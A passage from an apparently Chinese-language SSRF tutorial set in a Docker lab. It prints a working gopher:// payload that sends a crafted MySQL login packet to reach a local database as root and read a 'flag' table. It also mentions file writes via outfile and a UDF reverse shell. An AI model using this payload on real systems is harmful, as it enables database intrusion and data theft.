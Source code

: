 ```
http://xx.xx.xx.xx/?url=gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%251d%2500%2500%2500%2503%2575%2573%2565%2520%2566%256c%2561%2567%253b%2573%2565%256c%2565%2563%2574%2520%252a%2520%2566%2572%256f%256d%2520%2566%256c%2561%2567%253b%2501%2500%2500%2500%2501
```

![img](assets/5ruYMEx.png)

很多情况下，SSRF是没有回显的。
我们可以通过mysql执行select into outfile，当前用户必须存在file权限，以及导出到`secure_file_priv`指定目录下，并且导入目录需要有写权限。
还可以通过udf反弹shell直接执行系统命令。
原理都是利用SSRF拿Gopher协议发送构造好的TCP/IP数据包攻击mysql

因为docker设置了`secure_file_priv=/var/lib/mysql-files/`，偷懒就没有改了，

![img](assets/A0dG2xU.png)
